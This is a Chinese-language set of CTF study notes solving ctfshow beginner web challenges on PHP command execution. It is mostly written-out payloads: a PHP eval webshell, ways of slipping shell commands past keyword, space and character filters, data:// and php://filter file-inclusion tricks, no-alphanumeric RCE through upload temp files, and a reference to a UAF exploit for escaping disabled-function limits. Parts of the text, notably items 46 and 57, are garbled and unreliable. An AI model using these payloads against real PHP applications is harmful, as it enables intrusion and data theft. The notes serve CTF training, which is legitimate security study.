






# web

##### 编码

```
%00(空字符,截断)    %09(tab键水平)    %0b(tab键垂直)    %0a(换行)
%20(空格)    %0c(换页符)    %0D(回车符)    %23(#)
```

```
<?php
error_reporting(0);
highlight_file(__FILE__);
$code = $_POST['code'];
if(isset($code)){
  $code = str_replace("?","",$code);
  eval("?>".$code);
}
过滤了?,可以用另一种方式替代php:<script language='PHP'>eval($_POST["cmd"]);</script>&cmd=system('ls /');    
查询flag：code=<script language='PHP'>eval($_POST["cmd"]);</script>&cmd=system('find /f*');
获取flag：<script language='PHP'>eval($_POST["cmd"]);</script>&cmd=system('cat /flag');
或code=<script language='PHP'>eval($_POST["cmd"]);</script>&cmd=system('nl /f*');
```

##### linux有很多类似于cat的方法:tac、more、less、head、tail、nl、sed、sort、uniq

##### 用PHP提供的专门执行外部命令的函数（四个）：exec(), system(), passthru(), shell_exec()

```
system在执行系统外部命令时，直接将结果输出到游览器，如果执行命令成功则返回true，否则返回false。system("ls");
passthru直接将结果输出到浏览器，不返回任何值, passthru("ls");
exec执行系统外部命令时不会输出结果，而是返回结果的最后一行。如果想得到结果，可以使用第二个参数，让其输出到指定的数组。exec("ls",$file);print_r($file);
shell_exec(``)直接执行命令,要用echo输出执行的内容,echo`ls`;
eval不能直接执行exec或shell_exec,但能直接执行system和passthru并返回执行后的内容。
如果需要执行exec或shell_exec这样的外部命令,可以将输出存储到变量中,然后再用eval()执行,eval($_GET[c]);?c=echo `ls`;
eval("echo `$_POST[1]`;");post传值1=ls就可以正常输出。
eval($_POST[1]); post传值1=echo`ls`;会返回所有内容。1=echo exec(dir);只会返回最后一行。
```

```
>nl ：创建一个nl空文件，它通常用于重定向一个命令的输出到一个新文件中。在没有命令的情况下使用重定向符号时，它会创建一个文件。
```

```
*以当前路径下第一个文件名作为命令执行
```



```
flag in config.php
$c=$_GET[c];if(!preg_match("/system|exec|highlight/i",preg_match($c)){eval($c);}
根据黑名单的不同，获取config.php的内容有以下几种方法:
1.命令执行函数
system()、passthru()、exec()、shell_exec()、popen()、proc_open()、pcntl_exec()、``，``是shell_exec()函数的缩写
但是``不能在eval()函数中用,还要用echo输出执行的内容。
?c=passthru('cat config.php');
?c=highlight_file('config.php');
2.构造
?c=$a='sys';$b='tem';$d=$a.$b;$d('cat config.php');
3.绕过cat命令,具体请看下图。
?c=system('ca""t config.php');
?c=system("ca''t config.php");
?c=system('ca\t config.php');
4.base64绕过
?c=$a=base64_decode('c3lzdGVt');$b=base64_decode('Y2F0IGNvbmZpZy5waHA=');$a($b);
5.绕过分号;
?c=system('cat config.php')?>
?c=assert(base64_decode('c3lzdGVtKCdjYXQgY29uZmlnLnBocCcp'))?> //assert()会将字符串当做PHP代码来执行，并且字符串末尾可以没有分号.c3lzdGVtKCdjYXQgY29uZmlnLnBocCcp的base64解码后system('cat config.php')
6.POST传值
?c=echo `$_POST[1]`; //然后再通过post传参1=cat config.php
```

```
'\"绕过ls匹配:l''s    l""s    l\s
```



```
cat和tac的区别是顺序输出和逆序输出：
cat 1.txt
hello
world

tac 1.txt
world
hello

```

```
反引号有种功能是执行系统命令,是shell_exec()函数的缩写的缩写,这个函数是没有回显的,所以需要用echo输出执行的内容。
?c=echo `tac config.php`;
可以用get方式:?c=echo `$_GET[1]`;&1=tac config.php
可以用post方式:?c=echo `$_POST[1]`;然后在Post data中写入1=tac config.php
可以用passthru执行:?c=passthru('tac config.php');
passthru('tac con""fig?ph""p')?>
?c=include $_GET['a'];&a=php://filter/convert.base64-encode/resource=config.php
echo `tac con*`?>


```

```
js中base64解码:
    // 假设我们有一个Base64编码的字符串,使用atob()函数解码Base64字符串,输出解码后的字符串,输出: Hello World!
    var base64String = "SGVsbG8gV29ybGQh";
    var decodedString = atob(base64String);
    console.log(decodedString);
```

```
js中acill转换成字符串
    var asciiArray = [112,97,115,115,119,111,114,100];
    var str = "";
    for (var i = 0; i < asciiArray.length; i++) {
      str += String.fromCharCode(asciiArray[i]);}
    console.log(str);
```

# ctfshow WEB入门篇：

# 信息搜集

```
1.查看源代码

2.js前台拦截查看源代码，可以关闭js，Ctrl+u，view-source，Ctrl+Shift+i

3.bp抓包

4.robots.txt后台地址

5.phps源码泄露，访问index.phps会下载源码文件

6.源码泄露，访问www.zip获取源码文件

7.版本控制很重要，但不要部署到生产环境更重要。git代码泄露,直接访问url/.git/

8.版本控制很重要，但不要部署到生产环境更重要。svn泄露,直接访问url/.svn/

9.vim没保存退出会产生.swp文件,以 index.php 为例 第一次产生的缓存文件名为 .index.php.swp,第二次意外退出后，文件名为.index.php.swo,第三次产生的缓存文件则为 .index.php.swn,这道题直接访问url/index.php.swp就行

10.查看cookie

11.域名其实也可以隐藏信息,通过dns检查查看

12.有时候网站上的公开信息，就是管理员常用密码

13.技术文档出现默认账号和密码，默认账号和密码没修改

14.源码里面泄露重要(editor)的信息,直接在url后面添加/editor 然后查看flag路径并且访问

15.公开的信息比如邮箱，可能造成信息泄露，发现有忘记密码操作，根据邮箱修改密码成功。

16.测试用的探针造成信息泄露，url/tz.php可用来探测空间、服务器运行状况和PHP信息

17.备份的sql文件会泄露敏感信息,访问url/backup.sql

18.查看js文件和flag的条件，去通过uncode解码或控制台解码：alert()或console.log()

19.密钥放在前端,发现是aes加密,可以直接绕过前端加密去提交(给了加密后的密码)也可以去解密

20.mdb文件是早期asp+access构架的数据库文件 直接查看url路径添加/db/db.mdb 下载文件通过txt打开或者通过EasyAccess.exe打开搜索flag
```
php伪协议
```
phar:///tmp/zip.jpg/1.php （获取压缩包中的1.php文件然后包含）​。phar://表示协议格式。/tmp/zip.jpg表示要解析的压缩包，与扩展名无关./1.php表示压缩包中的文件。
2)zip:///tmp/zip.jpg#1.php，与phar相同，但是获取压缩包下文件的分隔符为#。
```
```
在php中``是shell_exec()函数的缩写的缩写,?匹配0 次或 1 次。*匹配0 次及以上。
?c=system('ls');
?c=echo `cp fla?.php 1.txt`;
?c=echo `tac fla?.ph?`;
?c=echo `tac fla''g.ph''p`;
?c=eval($_GET[1]);&1=system('ls');
?c=eval($_GET[1]);&1=system('tac flag.php');
?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
?c=include$_GET["url"]?>&url=php://filter/read=convert.base64-
encode/resource=flag.php
?c=require$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
?c=data://text/plain,<?php system("tac fla?.php");?>
段标签:?c=data://text/plain,<?=system("tac fl*.*")?>

preg_match()函数无法处理数组,所以可以用数组绕过：?num[]=1 preg_match(/m)可以匹配多行，通过换行绕过没有多行匹配：%0aphp intval()可以进行进制转换，输入八进制(?num=010574)或十六进制(?num=0x117c)会自动转换为十进制,八进制前要加0,十六进制前要加0x

```

# 命令执行

```
eval执行包含(include,require)伪协议(php,data)
```
```
create_function() 会创造一个匿名函数,会在内部 执行 eval()
$sort_by = $_GET['sort_by'];
$sorter = 'strnatcasecmp';
$databases=array('1234','4321');
$sort_function = ' return 1 * ' . $sorter . '($a["' . $sort_by . '"], $b["' . $sort_by . '"]);';
usort($databases, create_function('$a, $b', $sort_function));

// function fn($a,$b){
//     return 1 * ' . $sorter . '($a["' . 这后面开始自己补全 '"]);}phpinfo();/* . '"], $b["' . $sort_by . '"]);
// }

自己写个函数,把符号补全即可得到payload,payload为:'"]);}phpinfo();/*
```

```
29.?c=system("ls");后发现flag.php index.php ,因为要过滤flag,所以可以采用后面几种方式:        ?c=system("tac fla''g.php");    ?c=system("tac fla\g.php");    ?c=system("tac fla*"); 
```

```
30.echo `ls`;后发现flag.php index.php,因为要过滤flag|system|php        ?c=echo `tac fla*`;
```

```
31.$c = $_GET['c'];if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){eval($c);} 
1.?c=echo%0a`ls`;发现flag.php index.php，?c=echo%0a`tac%09fla*`;            （%0a是换行,%09是tab键） 
2.?c=passthru("ls");    ?c=passthru("tac%09fla*");
3.?c=include$_GET[1];&1=data://text/plain,<?=system("ls");?>执行包含的get传的1,而1
4.?c=include$_GET[1];&1=php://filter/convert.base64-encode/resource=flag.php
5.?c=print_r(scandir(dirname(_FILE_)));发现flag.php
?c=print_r(next(array_reverse(scandir(dirname(_FILE_)))));其余看6
6.?c=print_r(scandir(pos(localeconv())));得到Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php ) 
?c=print_r(array_reverse(scandir(pos(localeconv()))));得到Array ( [0] => index.php [1] => flag.php [2] => .. [3] => . ) 
?c=print_r(next(array_reverse(scandir(pos(localeconv())))));指出了flag.php
(1)?c=show_source(next(array_reverse(scandir(pos(localeconv())))));得到flag
(2)?c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));得到flag
```

```
32. $c = $_GET['c'];if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){eval($c);} 
1.?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
2.?c=require$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php    得到base64加密后的密文,直接解密一手获得flag
3.?c=include$_GET[1]?>&1=data:/text/plain,<?php system("ls");?>    
?c=include$_GET[1]?>&1=data:/text/plain,<?php system("tac flag.php");?>
```

```
33.同32：?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php解密得到flag 
```

```
34.仍然可以用：?c=require  $_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php 
```

```
35.要过滤这些：flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=    用?c=include$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php直接秒 
```

```
36.这个要多过滤数字:flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=|\/|[0-9]，所以直接用单个英文：c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php 
```

```
37.只过滤flag但用include($c);接受c值。第1种：?c=data://text/plain,<?php system("tac fla\g.php")?>    第2种：?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pg==        那个base64是用这个加密：<?php system("tac flag.php");?> 
```

```
38.同37但要过滤：flag|php|file    所以用第1种：?c=data://text/plain,<?=system("tac fla*")?>        第2种?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/Pg== 
```

```
39.$c = $_GET['c'];if(!preg_match("/flag/i", $c)){include($c.".php");} 
要过滤flag但用include($c.".php");接受c值     
?c=data://text/plain,<?php system("tac fla*");?>        data://text/plain, 这样就相当于执行了php语句 .php 因为前面的php语句已经闭合了，所以后面的.php会被当成html页面直接显示在页面上，起不到什么 作用 
```

```
40.$c = $_GET['c'];if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){eval($c);}     #这个过滤的是中文括号。
先打印当前所有变量：?c=print_r(get_defined_vars());      得到：Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); ) [_POST] => Array ( ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars()); ) 因为有post值，这是个突破口，所以post传参1=phpinfo();看看是否可行。成功执行：Array ( [_GET] => Array ( [c] => print_r(get_defined_vars()); ) [_POST] => Array ( [1] => phpinfo(); ) [_COOKIE] => Array ( ) [_FILES] => Array ( ) [c] => print_r(get_defined_vars()); )     next() 将内部指针指向数组中的下一个元素, 所以进行next()就会指向phpinfo().执行?c=print_r(next(get_defined_vars()));    array_pop():弹出数组最后一个单元：?c=print_r(array_pop(next(get_defined_vars())));得到phpinfo();接下来就进行命令执行 ：?c=eval(array_pop(next(get_defined_vars())));成功显示phpinfo();修改post值：1=system("tac flag.php");得到flag 
2.?c=show_source(next(array_reverse(scandir(dirname(_FILE_)))));
3.?c=highlight_file(next(array_reverse(scandir(dirname(_FILE_)))));
```

##### 羽师傅的exp

```
41.if(isset($_POST['c'])){$c = $_POST['c'];
if(!preg_match('/[0-9]|[a-z]|\^|\+|\~|\$|\[|\]|\{|\}|\&|\-/i', $c)){eval("echo($c);");}}
过滤少了|,用羽师傅的exp.py和rce_or.php,cmd终端输入python exp.py url即可进入操作功能输入system，再输入命令ls可得flag.php，再输入功能system和命令tac flag.php可得flag
```

```
 42.无过滤：system($c." >/dev/null 2>&1");         >/dev/null 2>&1 是一个 shell 重定向操作，意味着命令的标准输出（stdout）和标准错误（stderr）都被重定向到 /dev/null，即被丢弃?c=echo `ls`;得到flag.php index.php         ?c=echo `tac flag.php`;得到flag 
```

```
43.要过滤;|cat    ?c=echo `ls`||    得到flag.php index.php     ?c=tac flag.php||得到flag 
```

```
44.要过滤;|cat|flag    ?c=tac fla*||得到flag 
```

##### 绕过空格过滤

```
$IFS$9     ${IFS}      $IFS$1     {IFS}		$IFS	$IFS$1 //$1改成$加其他数字貌似都行
IFS		< 	<> 		{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20(space)		%09(tab)		X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）     
```

```
45.$c=$_GET['c'];if(!preg_match("/\;|cat|flag| /i", $c)){    #要过滤;|cat|flag| / 即多过滤空格
system($c." >/dev/null 2>&1");}     >/dev/null 2>&1 错误输出和标准输出都会丢弃,所以需要拼接||只执行前面语句
1.?c=tac${IFS}fla*||    2.?c=tac%09fla*||得到flag 
```

```
46.要过滤;|cat|flag| |[0-9]|fla∗∣∣2.?c=tac fla∗∣∣2.?c=tac$|\*    
?c=ls||得到flag.php index.php    ?c=tac<fla''g.php||得到flag 
```

```
47.要过滤;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail        1.?c=tac<fla''g.php||    2.?c=tac<fla\g.php||得到flag 
```

```
48.if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){system($c." >/dev/null 2>&1");}要过滤;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`    
直接?c=tac<fla''g.php||得到flag 
```

```
49.要过滤;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/        
1.?c=nl<fla''g.php||    2.?c=tac<fla''g.php||得到flag 
```

```
50.要过滤;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/    ?c=tac<fla''g.php||得到flag 
```

```
51.要过滤;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/    过滤了tac不能用tac了但可以这样用ta\c        
1.?c=ta\c<fla\g.php||        2.?c=nl<fla\g.php||得到flag 
```

```
52.要过滤;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\<不能再用<或>或<>代替空格绕过了,这道题他把flag放在根目录下    ?c=ta\c${IFS}/fla''g||得到flag 
```

```
53.?c=ta''c${IFS}fla''g.php得到flag 
```

```
54.$c=$_GET['c'];if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){system($c);} 
1.与/bin/ca?匹配的，只有/bin/cat命令这样就用到了cat命令：?c=/bin/ca?${IFS}f???.???     查看源码得到flag    
2.?c=cp${IFS}???g.php${IFS}z.txt    查看z.txt
```

##### 无字母数字rce

```
参考：https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html
55.if(isset($_GET['c'])){$c=$_GET['c'];if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){system($c);}}
无字母数字rce,使用 无字母数字rce.html上传文件，把里面的链接修改成此题，上传任意文件再抓包，用. file执行文件，我们可以发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是/tmp/phpXXXXXX，文件名最后6个字符是随机的大小写字母,大写字母位于@与[之间。#!/bin/sh 是指此脚本使用/bin/sh来解释执行 可能需要多试几次,因为最后字母都是随机的,所有文件名都是小写,只有PHP生成的临时文件包含大写字母,而我们执行的是最后一个字母是大写的即我们上传的那个。
POST /?c=.%20/???/????????[@-[]  
#!/bin/sh    ls 得到flag.php和index.php          
#!/bin/sh   tac flag.php   得到flag
```

```
56.同上可得flag 
```

```
57.flag in 36.php 但是过滤了;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[        在Linux中echo $(())输出为0,echo ~(())输出为0,echo (())输出为0,echo ~(())输出为0,echo (())输出为0,echo (())输出为0,echo (())输出为0,echo (())输出为0,echo (())输出为0,echo ~(())输出为0,echo (())输出为0,echo ~(())输出为0,echo (())输出为0,echo (())输出为0,echo (())输出为0,echo (())输出为0,echo $(())为~0，echo $((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))为-1,所以我们可以构造出36， echo $((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(($((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))))))为1，所以 echo $((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(($((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))+$((~(( ((~(( (( (( (( (( ((~(( ((~(( (( (( (( (( $(())))))))为36,payload即可构造 
```

```
58.if(isset($_POST['c'])){$c= $_POST['c']; eval($c);}    先扫描一下文件: c=print_r(scandir(dirname('FILE')));    
1.post传值c=highlight_file('flag.php'); 或者c=show_source('flag.php');       
2.使用文件包含，post传值c=include($_POST['a']);&a=php://filter/convert.base64-encode/resource=flag.php        
3.echo file_get_contents('flag.php');可得flag     
```

```
59.同上，但这一题禁用了echo file_get_contents('flag.php'); 
```

```
60.post传值c=print_r(scandir(dirname('file')));得到Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php )     1.c=show_source('flag.php');   或    c=highlight_file('flag.php');        2.使用上面58的做法，文件包含c=include(  $_POST['a']);&a=php://filter/convert.base64-encode/resource=flag.php    include可以不用():c=include$_POST['a'];&a=php://filter/convert.base64-encode/resource=flag.php 
```

```
61.同上可行c=print_r(scandir(dirname('file')));得到目录接下来看上面的 
```

```
62.同60，c=include('flag.php');echo   $flag;也可得到flag 
```

```
63.同上，先把flag.php包含进去再显示所有的变量：c=include('flag.php');var_dump(get_defined_vars()); 
```

```
64.1.c=include('flag.php');print_r(get_defined_vars());        2.c=show_source('flag.php');    3.c=highlight_file('flag.php'); 
```

```
65.同上1.c=include('flag.php');print_r(get_defined_vars());        2.显示flag.php文件3.c=include($_POST[1]);&1=php://filter/convert.base64-encode/resource=flag.php 
```

```
66.上面的都被禁了,先扫描一下当前目录c=print_r(scandir('.'));可得Array ( [0] => . [1] => .. [2] => flag.php [3] => index.php ),这次flag不在flag.php中,然后扫描上一级目录c=print_r(scandir('../'));可得Array ( [0] => . [1] => .. [2] => html [3] => localhost ) 再扫上一级目录：c=print_r(scandir('../../'));可得Array ( [0] => . [1] => .. [2] => cache [3] => empty [4] => lib [5] => local [6] => lock [7] => log [8] => opt [9] => run [10] => spool [11] => tmp [12] => www ) 继续扫上一级目录：c=print_r(scandir('../../../'));得到Array ( [0] => . [1] => .. [2] => .dockerenv [3] => bin [4] => dev [5] => etc [6] => flag.txt [7] => home [8] => lib [9] => media [10] => mnt [11] => opt [12] => proc [13] => root [14] => run [15] => sbin [16] => srv [17] => sys [18] => tmp [19] => usr [20] => var ) ,flag就在flag.txt中,采用文件包含:c=include('../../../flag.txt');得到flag 
```

```
67.print_r被禁用,用var_dump(),查看当前目录:c=var_dump(scandir('.'));看上一级目录：c=var_dump(scandir('../'));接下来操作和66一样：c=var_dump(scandir('../../../'));看到flag.txt,直接访问:c=include('/flag.txt');或者c=highlight_file('/flag.txt');得到flag 
```

```
68.这道题禁用了highlight_file(),用include()文件包含,操作同67,最后c=include('/flag.txt');或c=require('/flag.txt');得到flag 
```

```
69.1.c=include('/flag.txt');    2.c=include  $_POST[1];&1=php://filter/convert.base64-encode/resource=/flag.txt 
```

```
70.payload:1.c=include('/flag.txt');    2.c=include$_POST[1];&1=php://filter/convert.base64-encode/resource=/flag.txt     ob_get_contents()：得到输出缓冲区的内容。     ob_end_clean()：清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。     preg_replace()：执行一个正则表达式的搜索和替换。     exit()：输出一个消息并且退出当前脚本。
```

##### 突破禁用函数,文件内容

```
error_reporting(0);ini_set('display_errors', 0); #error_reporting(0);关闭所有PHP错误报告,ini_set('display_errors',“0”);临时关闭PHP的错误显示功能
if(isset($_POST['c'])){$c= $_POST['c'];eval($c);$s = ob_get_contents();ob_end_clean();
echo preg_replace("/[0-9]|[a-z]/i","?",$s);}else{highlight_file(__FILE__);}
ob_get_contents()：得到输出缓冲区的内容。     
ob_end_clean()：清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。
preg_replace()：执行一个正则表达式的搜索和替换。
这道题会把包含出来的文件内容替换所以用exit()直接中断,不让它替换内容。
```

##### 扫描目录的四种办法：

```
1.看根目录下的所有文件及文件夹:var_export(glob('/*'));  
看/var下所有文件及文件夹:c=var_export(glob('/var/*'));    依此类推
2.看根目录下的所有文件及文件夹:var_export(scandir('/'));   
看/var下所有文件及文件夹:c=var_export(scandir('/var/'));    依此类推
3.看根目录下的所有文件及文件夹:c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);    
看/var下所有文件及文件夹:c=$a=new DirectoryIterator("glob:///var/*");foreach($a as $f){echo($f->__toString().' ');} exit(0);    依此类推
4.看根目录下的所有文件及文件夹:c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->getFilename()." ");} exit(0);    
看/var下所有文件及文件夹:c=$a=new DirectoryIterator("glob:///var/*");foreach($a as $f){echo($f->getFilename()." ");} exit(0);    依此类推

用var_dump()和print_r()也行,看禁用了哪些函数
```

```
71.error_reporting(0);ini_set('display_errors', 0); #error_reporting(0);关闭所有PHP错误报告,ini_set('display_errors',“0”);临时关闭PHP的错误显示功能
if(isset($_POST['c'])){$c= $_POST['c'];eval($c);$s = ob_get_contents();ob_end_clean();
echo preg_replace("/[0-9]|[a-z]/i","?",$s);}else{highlight_file(__FILE__);}
ob_get_contents()：得到输出缓冲区的内容。     
ob_end_clean()：清除缓冲区的内容，并将缓冲区关闭，但不会输出内容。
preg_replace()：执行一个正则表达式的搜索和替换。
这道题会把包含出来的文件内容替换所以用exit()直接中断,不让它替换内容：payload:c=var_export(scandir('/'));exit();    发现根目录下存在flag.txt    c=include('/flag.txt');exit();
```

```
72.error_reporting(0);ini_set('display_errors', 0); #error_reporting(0);关闭所有PHP错误报告,ini_set('display_errors',“0”);临时关闭PHP的错误显示功能
if(isset($_POST['c'])){$c= $_POST['c'];eval($c);$s = ob_get_contents();ob_end_clean();
echo preg_replace("/[0-9]|[a-z]/i","?",$s);}else{highlight_file(__FILE__);}__FILE__);}
这道题有open_basedir,system()不受open_basedir限制但这里被禁用了
open_basedir指令用来限制PHP只能访问那些目录,指定的限制实际上是前缀
尝试:我试了可以打开当前目录：c=var_export(scandir('.'));exit();存在flag.php和index.php,但是flag.php不是要找的flag文件
c=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);得到flag0.txt    但是因为open_basedir不能直接include('flag0.txt');打开该文件。
这道题用UAF的poc72.php,把poc72.php用url编码一下,然后用post传值c=这个url编码得到flag
```

```
73.1.c=var_export(scandir('/'));exit();发现flagc.txt    c=include('/flagc.txt');exit();得到flag
2.用poc72.php尝试,发现禁用strlen()函数,所以可以自己写个strlen_user函数替代：
function strlen_user($s){$ret=0;for($i=0;$i<100000;$i++){if($s[$i]){$ret++;}else{break;}}return $ret;}
把poc72.php中的strlen替换为strlen_user 这道题防止了这个流量所以打不通
```

```
74.这道题scandir()被禁用,不能再用scandir()扫根目录了,c=var_export(glob('/*'));exit();得到/flagx.txt        c=include('/flagx.txt');exit();得到flag
```

```
